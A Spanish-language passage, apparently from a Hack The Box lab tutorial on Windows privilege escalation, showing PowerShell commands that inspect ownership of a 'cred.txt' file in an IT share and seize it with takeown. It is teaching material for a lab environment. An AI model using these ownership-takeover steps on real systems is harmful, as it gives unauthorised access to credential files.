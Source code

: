 ```r
PS C:\htb> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}
 
FullName                                 LastWriteTime         Attributes Owner
--------                                 -------------         ---------- -----
C:\Department Shares\Private\IT\cred.txt 6/18/2021 12:23:28 PM    Archive
```

### Checking File Ownership

Podemos ver que el propietario no se muestra, lo que significa que probablemente no tenemos suficientes permisos sobre el objeto para ver esos detalles. Podemos retroceder un poco y comprobar el propietario del directorio IT.

```r
PS C:\htb> cmd /c dir /q 'C:\Department Shares\Private\IT'

 Volume in drive C has no label.
 Volume Serial Number is 0C92-675B
 
 Directory of C:\Department Shares\Private\IT
 
06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\sccm_svc  .
06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\sccm_svc  ..
06/18/2021  12:23 PM                36 ...                    cred.txt
               1 File(s)             36 bytes
               2 Dir(s)  17,079,754,752 bytes free
```

Podemos ver que el recurso compartido de IT parece ser propiedad de una cuenta de servicio y contiene un archivo `cred.txt` con algunos datos dentro.

### Taking Ownership of the File

Ahora podemos usar el binario de Windows [takeown](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/takeown) para cambiar la propiedad del archivo.

```r
PS C:\htb> takeown /f 'C:\Department Shares\Private\IT\cred.txt'
 
SUCCESS: The file (or folder): "C:\Department Shares\Private\IT\cred.txt" now owned by user "WINLPE-SRV01\htb-student".
```

### Confirming Ownership Changed

Podemos confirmar la propiedad usando el mismo comando que antes. Ahora vemos que nuestra cuenta de usuario es la propietaria del archivo.

```r
PS C:\htb> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
 
Name     Directory                       Owner
----     ---------                       -----
cred.txt C:\Department Shares\Private\IT WINLPE-SRV01\htb-student
```
